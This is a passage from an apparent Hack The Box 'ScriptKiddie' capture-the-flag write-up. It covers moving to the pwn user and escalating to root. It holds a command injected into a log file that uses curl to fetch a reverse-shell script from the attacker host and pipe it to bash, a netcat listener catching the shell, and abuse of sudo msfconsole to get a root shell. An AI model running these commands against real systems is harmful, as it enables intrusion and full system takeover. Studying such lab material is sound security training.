 
Proved that it was possible to execute code, a two-stage reverse shell payload was then used.

Served the same reverse shell used during the foothold:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Injected the staged command within the log:
```bash
kid@scriptkiddie:~/logs$ echo '0 0 $(curl 10.10.14.14/revshell.sh | bash )' > hackers
```

Obtained the reverse shell:
```bash
┌──(kali㉿kali)-[~/…/box/ScriptKiddie/loot/pwn_script]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 56974
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
pwn@scriptkiddie:~$
```

## Privilege Escalation
Enumerated sudo privileges of the `pwn` user:
```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Because the **pwn user was able to execute the msfconsole tool with high privileges** and the tool itself offered a **builtin function to spawn a shell**, it was possible to **leverage this feature** to obtain a full interactive root shell:
```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > bash
[*] exec: bash

root@scriptkiddie:/home/pwn# whoami && hostname && cat /root/root.txt && ifconfig -a
root
scriptkiddie
db90201a61bd45b56fe74fb7a44253ee
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.226  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:a9c3  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:a9c3  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:a9:c3  txqueuelen 1000  (Ethernet)
        RX packets 31355  bytes 6228551 (6.2 MB)
        RX errors 0  dropped 59  overruns 0  frame 0
        TX packets 20962  bytes 24340256 (24.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
```